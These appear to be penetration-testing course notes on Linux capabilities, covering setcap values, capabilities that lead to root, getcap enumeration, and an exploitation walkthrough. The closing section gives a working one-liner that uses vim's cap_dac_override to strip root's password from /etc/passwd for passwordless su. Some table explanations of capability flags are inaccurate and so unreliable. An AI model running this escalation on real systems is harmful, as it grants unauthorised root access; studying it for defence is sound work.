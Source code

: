 Breakdown: 

Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted. This allows for more fine-grained control over which processes have access to certain privileges, making it more secure than the traditional Unix model of granting privileges to users and groups.

One common vulnerability is using capabilities to grant privileges to processes that are not adequately sandboxed or isolated from other processes, allowing us to escalate their privileges and gain access to sensitive information or perform unauthorised actions. Another potential vulnerability is the misuse or overuse of capabilities, which can result in processes having more privileges than they need. This can create unnecessary security risks, as we could exploit these privileges to gain access to sensitive information or perform unauthorised actions.

When capabilities are set for a binary, it means that the binary will be able to perform specific actions that it would not be able to perform without the capabilities. For example, if the `cap_net_bind_service` capability is set for a binary, the binary will be able to bind to network ports, which is a privilege usually restricted.

Some capabilities, such as `cap_sys_admin`, which allows an executable to perform actions with administrative privileges, can be dangerous if they are not used properly. For example, we could exploit them to escalate their privileges, gain access to sensitive information, or perform unauthorized actions. Therefore, it is crucial to set these types of capabilities for properly sandboxed and isolated executables and avoid granting them unnecessarily.

|**Capability**|**Description**|
|---|---|
|`cap_sys_admin`|Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.|
|`cap_sys_chroot`|Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.|
|`cap_sys_ptrace`|Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.|
|`cap_sys_nice`|Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.|
|`cap_sys_time`|Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.|
|`cap_sys_resource`|Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.|
|`cap_sys_module`|Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.|
|`cap_net_bind_service`|Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.|

When a binary is executed with capabilities, it can perform the actions that the capabilities allow. However, it will not be able to perform any actions not allowed by the capabilities. This allows for more fine-grained control over the binary's privileges and can help prevent security vulnerabilities and unauthorised access to sensitive information.

When using the `setcap` command to set capabilities for an executable in Linux, we need to specify the capability we want to set and the value we want to assign. The values we use will depend on the specific capability we are setting and the privileges we want to grant to the executable.

Here are some examples of values that we can use with the `setcap` command, along with a brief description of what they do:

|**Capability Values**|**Description**|
|---|---|
|`=`|This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.|
|`+ep`|This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.|
|`+ei`|This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.|
|`+p`|This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.|

Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

|**Capability**|**Desciption**|
|---|---|
|`cap_setuid`|Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.|
|`cap_setgid`|Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.|
|`cap_sys_admin`|This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems.|
|`cap_dac_override`|Allows bypassing of file read, write, and execute permission checks.|

Enumerating Capabilities: To enumerate all existing capabilities for all existing binary executables on a Linux system, we can use the following command:

This one-liner uses the `find` command to search for all binary executables in the directories where they are typically located and then uses the `-exec` flag to run the `getcap` command on each, showing the capabilities that have been set for that binary. The output of this command will show a list of all binary executables on the system, along with the capabilities that have been set for each.

```shell-session
cyberslut@htb[/htb]$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

This command recursively scans the entire filesystem (root directory /) for files with capabilities, regardless of their location.

```shell-session
getcap -r / 2>/dev/null
```

Exploitation
If we gained access to the system with a low-privilege account, then discovered the `cap_dac_override` capability:


```shell-session
cyberslut@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

For example, the `/usr/bin/vim.basic` binary is run without special privileges, such as with `sudo`. However, because the binary has the `cap_dac_override` capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the `cap_dac_override` capability and perform tasks that require this capability.

Let us take a look at the `/etc/passwd` file where the user `root` is specified:

```shell-session
cyberslut@htb[/htb]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

```shell-session
cyberslut@htb[/htb]$ /usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:

```shell-session
cyberslut@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
cyberslut@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.
